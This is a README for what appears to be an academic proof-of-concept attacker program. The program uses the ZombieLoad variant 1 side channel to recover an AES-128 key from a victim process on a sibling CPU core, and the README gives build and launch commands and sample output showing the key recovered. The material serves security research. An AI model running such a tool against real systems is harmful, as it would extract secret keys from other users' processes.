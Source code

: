 # Attacker Program for the differential attack with ZomvieLoad Variant 1

The folder `aes-min` contains a minimal AES128 software implementation by Craig McQueen ([cmcqueen/aes-min on GitHub, version 0.3.1](https://github.com/cmcqueen/aes-min/tree/728e156091b95a7f2e8882b7dee012e9a6ea6213) that we use to compute the inverse AES key schedule. We removed some files (like tests) that are not necessary for compiling the victim program and introduced minor changes to make the inverse key schedule function accessible to our own C code (see [aes-min/CHANGES](aes-min/CHANGES) for details). Please refer to the original repository if you are interested in the `aes-min` project.

## Preparing the attacker program

Set the processor id to run the attacker and vicim processes on in `main.h` (make sure to choose sibling cores, i.e., logical cores sharing the same physical core):

```c
#define CPU_ATTACKER 3
#define CPU_VICTIM 7
```

## Compiling
```
make
```

## Launch the attack

Start the attacker program. Provide the number of samples to collect and the number of samplpes per plaintext as command line parameters:
```
bin/dpa_attacker_v1 100000 1000
```

If the attack was successful, the attacker most probable key byte hypotheses are equal to the actual key bytes. For example, for the key

```
2b 7e 15 16 28 ae d2 a6 ab f7 15 88 09 cf 4f 3c
```

the output could be:

```
[MA] Ranked Results (Top 5):
[MA] Key byte  0:  2b  (  24)  18  (   4)  00  (   3)  0b  (   3)  15  (   3) 
[MA] Key byte  1:  7e  (  18)  12  (   6)  68  (   4)  69  (   4)  0b  (   3) 
[MA] Key byte  2:  15  (  25)  10  (   5)  2c  (   4)  60  (   4)  d8  (   4) 
[MA] Key byte  3:  16  (  24)  05  (   5)  ab  (   5)  4d  (   4)  59  (   4) 
[MA] Key byte  4:  28  (  16)  b7  (   5)  54  (   4)  59  (   4)  01  (   3) 
[MA] Key byte  5:  ae  (  18)  69  (   5)  23  (   4)  d1  (   4)  f0  (   4) 
[MA] Key byte  6:  d2  (  20)  00  (   5)  25  (   4)  27  (   3)  3b  (   3) 
[MA] Key byte  7:  a6  (  16)  49  (   6)  00  (   3)  1e  (   3)  1f  (   3) 
[MA] Key byte  8:  ab  (  21)  01  (   5)  09  (   4)  37  (   4)  c3  (   4) 
[MA] Key byte  9:  f7  (  16)  20  (   4)  64  (   4)  00  (   3)  1e  (   3) 
[MA] Key byte 10:  15  (  20)  7f  (   4)  b8  (   4)  42  (   3)  59  (   3) 
[MA] Key byte 11:  88  (  17)  20  (   4)  11  (   3)  45  (   3)  7e  (   3) 
[MA] Key byte 12:  09  (  24)  43  (  16)  51  (  16)  72  (  16)  3d  (  15) 
[MA] Key byte 13:  cf  (  14)  0a  (   3)  42  (   3)  5b  (   3)  6d  (   3) 
[MA] Key byte 14:  4f  (  15)  00  (   4)  02  (   3)  10  (   3)  5f  (   3) 
[MA] Key byte 15:  3c  (  18)  18  (   5)  37  (   4)  6f  (   4)  e0  (   4) 
[MA] Collected 100000 samples in 9.814739 seconds (10188.757949 samples/s).
```
